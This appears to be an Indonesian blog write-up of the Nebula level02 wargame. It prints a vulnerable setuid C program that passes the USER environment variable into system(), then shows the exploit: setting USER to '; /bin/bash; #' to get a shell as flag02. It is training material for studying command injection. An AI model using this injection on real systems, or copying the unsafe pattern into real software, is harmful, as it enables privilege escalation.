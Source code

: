 +++
author = "kernel-panic"
categories = ["Security", "Nebula"]
date = "2018-01-09T05:43:39+07:00"
description = "Security Wargames"
featured = "x44905647871.jpg"
featuredalt = "Nebula Level02"
featuredpath = "https://beeimg.com/images"
linktitle = ""
title = "Exploit Exercises - Nebula Level02"
type = "post"

+++
Dalam {{< url-link "level02" "https://exploit-exercises.com/nebula/level02/" "target">}} ini menginstruksikan kita untuk meninjau kode C yang rentan dan menemukan vektor serangannya. Program ini membahas kerentanan dari {{< url-link "tingkat sebelumnya" "https://muhammadzakyzulfiqor.xyz/article/nebula-level01/" "target">}} namun ada vektor baru.

Source code untuk referensinya disertakan di bawah ini:

    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>
    
    int main(int argc, char **argv, char **envp)
    {
    char *buffer;
    
    gid_t gid;
    uid_t uid;
    
    gid = getegid();
    uid = geteuid();
    
    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);
    
    buffer = NULL;
    
    asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
    printf("about to call system(\"%s\")\n", buffer);
    
    system(buffer);
    }

Seperti yang Anda lihat, "echo" dipanggil oleh path absolutnya tetapi getenv("USER")) memanggil variabel lingkungan $USER. Seperti masalah di level01, variabel ini diatur dalam shell saat ini yang dapat dimanipulasi.

Mari kita modifikasi variabel $USER untuk memasukkan input yang berbeda.

    level02@nebula:/home/flag02$ echo ${USER}
    level02
    level02@nebula:/home/flag02$ USER="; /bin/bash; #"
    level02@nebula:/home/flag02$ echo ${USER}
    ; /bin/bash; #

Seperti yang dapat dilihat dalam kode di atas, saya memodifikasi variabel lingkungan USER yang menjadi berisi "; /bin/bash; #".

Titik  koma ditambahkan untuk menghentikan perintah saat ini dan memulai yang baru, yang memungkinkan kita menghentikan panggilan "echo" dan _spawn a shell_. Diakhir, saya menambahkan  sebuah _octothorp (#)_ untuk memberi komentar pada garis "is cool" yang akan menciptakan keluaran yang salah.

Mari kita jalankan flag02 dan amati hasilnya:

    level02@nebula:/home/flag02$ id
    uid=1003(level02) gid=1003(level02) groups=1003(level02)
    level02@nebula:/home/flag02$ ./flag02
    about to call system("/bin/echo ; /bin/bash; # is cool")
    
    flag02@nebula:/home/flag02$ id
    uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)
    flag02@nebula:/home/flag02$ getflag
    You have successfully executed getflag on a target account

Dan yaps, trik ini berhasil. Tingkat ini menunjukkan bahaya penggunaan variabel lingkungan dalam script dan masukan pengguna yang dipercaya.

<div class="videoyoutube"><div class="video-responsive"><iframe allowfullscreen="1" class="embedded-video-large" src="https://www.youtube.com/embed/hfsHjJbE6J8?rel=0"></iframe></div></div>
